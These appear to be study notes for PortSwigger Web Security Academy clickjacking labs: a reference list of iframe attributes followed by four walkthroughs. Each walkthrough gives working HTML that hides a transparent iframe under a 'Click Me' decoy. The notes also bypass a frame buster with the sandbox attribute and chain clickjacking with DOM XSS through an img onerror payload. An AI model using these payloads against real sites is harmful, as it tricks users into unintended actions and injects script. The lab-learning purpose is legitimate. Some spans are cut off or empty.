



## Exploit Code – Essential `<iframe>` Attributes

- **allow**  
  - Specifies a feature policy for the `<iframe>`.

- **allowfullscreen**  
  - Type: `true` / `false`  
  - Set to `true` if the `<iframe>` is allowed to activate fullscreen mode using `requestFullscreen()`.

- **allowpaymentrequest**  
  - Type: `true` / `false`  
  - Set to `true` if a cross-origin `<iframe>` should be allowed to invoke the Payment Request API.

- **height**  
  - Type: `pixels`  
  - Specifies the height of the `<iframe>`.  
  - Default: `150px`.

- **loading**  
  - Values: `eager` / `lazy`  
  - Controls whether the browser should:
    - `eager`: load the iframe immediately.  
    - `lazy`: defer loading until certain conditions are met (e.g., near viewport).

- **name**  
  - Type: `text`  
  - Specifies the name of the `<iframe>`.

- **referrerpolicy**  
  - Values:  
    - `no-referrer`  
    - `no-referrer-when-downgrade`  
    - `origin`  
    - `origin-when-cross-origin`  
    - `same-origin`  
    - `strict-origin-when-cross-origin`  
    - `unsafe-url`  
  - Controls which referrer information is sent when fetching the iframe content.

- **sandbox**  
  - Values (can be combined):  
    - `allow-forms`  
    - `allow-pointer-lock`  
    - `allow-popups`  
    - `allow-same-origin`  
    - `allow-scripts`  
    - `allow-top-navigation`  
  - Enables an extra set of restrictions for the content inside the `<iframe>`.

- **src**  
  - Type: `URL`  
  - Specifies the address of the document to embed in the `<iframe>`.

- **srcdoc**  
  - Type: `HTML_code`  
  - Specifies the HTML content of the page to show directly in the `<iframe>`.

- **width**  
  - Type: `pixels`  
  - Specifies the width of the `<iframe>`.  
  - Default: `300px`.


## Lab 1 – Basic Clickjacking with CSRF Token Protection

- Click on **“Go to exploit server”**.
- On the exploit server page, **generate the exploit code**.
- **Format the exploit code** as instructed in the lab (use the required HTML/iframe structure and styling).
- Once the exploit page is ready, click on **“Deliver to victim”** to send the exploit.

<style>
iframe {
        position:relative;
        width:1135;
        height:600;
        opacity:0.001;
        z-index: 2;
    }
p {
        position:absolute;
        top:500;
        left:100;
        z-index: 1;
}
</style>
<p>Click Me</p>
<iframe src=https://0a3e00e0048e06f8806f85e800d50021.web-security-academy.net/my-account></iframe>

## Lab 2 – Clickjacking with Form Input Data Prefilled from a URL Parameter

- Click on **“Go to exploit server”**.
- On the exploit server page, **generate the exploit code**.
- **Modify the exploit URL** to include an email parameter, for example:  
  `?email=test@example.com`
- Ensure the form field on the victim page is **prefilled using the `email` URL parameter**.
- Once the exploit page is correctly formatted and tested, click on **“Deliver to victim”** to send the exploit.

<style>
iframe {
        position:relative;
        width:1135;
        height:600;
        opacity:0.0001;
        z-index: 2;
    }
p {
        position:absolute;
        top:450;
        left:80;
        z-index: 1;
}
</style>
<p>Click Me</p>
<iframe src="https://0a510088037b3971808949be00ad0056.web-security-academy.net/my-account?email=hellotest@gmail.com"></iframe>

## Lab 3 – Clickjacking with a Frame Buster Script

- Click on **“Go to exploit server”**.
- On the exploit server page, **generate the exploit code**.
- **Modify the `<iframe>`** in the exploit page to include the sandbox attribute, for example:  
  ```html <iframe sandbox="allow-forms" ...>

<style>
iframe {
        position:relative;
        width:1135;
        height:600;
        opacity:0.0001;
        z-index: 2;
    }
p {
        position:absolute;
        top:450;
        left:80;
        z-index: 1;
}
</style>
<p>Click Me</p>
<iframe sandbox="allow-forms" src="https://0a0200f4032854b383a23712003200cc.web-security-academy.net/my-account?email=hellotest@gmail.com"></iframe>

## Lab 4 – Exploiting Clickjacking Vulnerability to Trigger DOM-based XSS

- Click on **“Submit feedback”** and fill the form.
- In the **name** field, pass the XSS payload:  
  ``
- Intercept the request in **Burp Suite** and check the response to confirm whether the payload is reflected (DOM-based XSS behavior).
- Copy the reflected parameter values and construct the feedback URL so the form fields are auto-filled, for example:  
  `https://0ac6009203ecf7a384c0e1c300fd00c4.web-security-academy.net/feedback?name=%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E&email=yesy%40gmail.com&subject=sdfsdfsdf&message=sdfsfsdf#feedbackForm`
- Verify that visiting this URL auto-populates the form and focuses on `#feedbackForm`.
- Click on **“Go to exploit server”**.
- On the exploit server:
  - Generate the exploit page.
  - In the generated HTML, locate the `<iframe>` tag.
  - Replace the existing `src` value with the crafted feedback URL above.
- Once the exploit page is correctly updated, click on **“Deliver to victim”** to send the exploit.





<style>
iframe {
        position:relative;
        width:1135;
        height:600;
        opacity:0.2;
        z-index: 2;
    }
p {
        position:absolute;
        top:520;
        left:80;
        z-index: 1;
}
</style>
<p>Click Me</p>
<iframe src="https://0ac6009203ecf7a384c0e1c300fd00c4.web-security-academy.net/feedback?name=%3Cimg+src%3Dx+onerror%3Dprint%28%29%3E&email=yesy%40gmail.com&subject=sdfsdfsdf&message=sdfsfsdf#feedbackForm">

## Lab - 5  Exploiting clickjacking vulnerability to trigger DOM-based XSS**


